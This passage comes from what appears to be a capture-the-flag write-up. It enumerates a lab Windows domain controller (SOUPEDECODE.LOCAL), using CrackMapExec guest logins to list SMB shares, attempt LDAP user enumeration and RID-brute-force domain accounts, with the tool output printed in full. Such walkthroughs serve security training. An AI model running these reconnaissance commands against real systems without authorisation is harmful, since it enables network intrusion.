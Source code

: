 Notably, the system exposed the domain name: **SOUPEDECODE.LOCAL.**


## SMB Share Enumeration
With SMB (445/tcp) open, my next step was to check if the guest user had access to any shares. I ran CrackMapExec with an empty password:
```
crackmapexec smb 10.201.91.100 -u 'guest' -p '' --shares
SMB         10.201.91.100   445    DC01             [*] Windows 10.0 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         10.201.91.100   445    DC01             [+] SOUPEDECODE.LOCAL\guest: 
SMB         10.201.91.100   445    DC01             [*] Enumerated shares
SMB         10.201.91.100   445    DC01             Share           Permissions     Remark
SMB         10.201.91.100   445    DC01             -----           -----------     ------
SMB         10.201.91.100   445    DC01             ADMIN$                          Remote Admin
SMB         10.201.91.100   445    DC01             backup                          
SMB         10.201.91.100   445    DC01             C$                              Default share
SMB         10.201.91.100   445    DC01             IPC$            READ            Remote IPC
SMB         10.201.91.100   445    DC01             NETLOGON                        Logon server share 
SMB         10.201.91.100   445    DC01             SYSVOL                          Logon server share 
SMB         10.201.91.100   445    DC01             Users
```
The results showed that authentication as guest was possible, and I could enumerate available shares:
* IPC$ → Read access (Remote IPC)
* ADMIN$, C$ → Default administrative shares
* NETLOGON & SYSVOL → Standard AD logon shares
* Users → Standard user profiles
* Backup → A non-standard share, though not accessible to the guest account

This immediately stood out because unusual shares (like backup) often hide sensitive information such as credentials or configuration files.

## Attempting LDAP Enumeration
After identifying LDAP services (389/tcp and 3268/tcp), I attempted to enumerate users with CrackMapExec:
```
crackmapexec ldap 10.201.91.100 -u "guest" -p "" --users
SMB         10.201.91.100   445    DC01             [*] Windows 10.0 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
LDAP        10.201.91.100   445    DC01             [-] SOUPEDECODE.LOCAL\guest: Error connecting to the domain, are you sure LDAP service is running on the target?
Error: [Errno Connection error (DC01.SOUPEDECODE.LOCAL:389)] [Errno -3] Temporary failure in name resolution
Unfortunately, the query failed with a temporary name resolution error, suggesting the domain controller requires proper DNS resolution (pointing to DC01.SOUPEDECODE.LOCAL) before LDAP enumeration will succeed.
RID Brute Force User Enumeration
Since LDAP failed, I switched to RID brute forcing with CrackMapExec to enumerate valid users and groups:
crackmapexec smb 10.201.91.100 -u 'guest' -p '' --rid-brute
SMB         10.201.91.100   445    DC01             [*] Windows 10.0 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         10.201.91.100   445    DC01             [+] SOUPEDECODE.LOCAL\guest: 
SMB         10.201.91.100   445    DC01             498: SOUPEDECODE\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.201.91.100   445    DC01             500: SOUPEDECODE\Administrator (SidTypeUser)
SMB         10.201.91.100   445    DC01             501: SOUPEDECODE\Guest (SidTypeUser)
SMB         10.201.91.100   445    DC01             502: SOUPEDECODE\krbtgt (SidTypeUser)
SMB         10.201.91.100   445    DC01             512: SOUPEDECODE\Domain Admins (SidTypeGroup)
SMB         10.201.91.100   445    DC01             513: SOUPEDECODE\Domain Users (SidTypeGroup)
SMB         10.201.91.100   445    DC01             514: SOUPEDECODE\Domain Guests (SidTypeGroup)
```
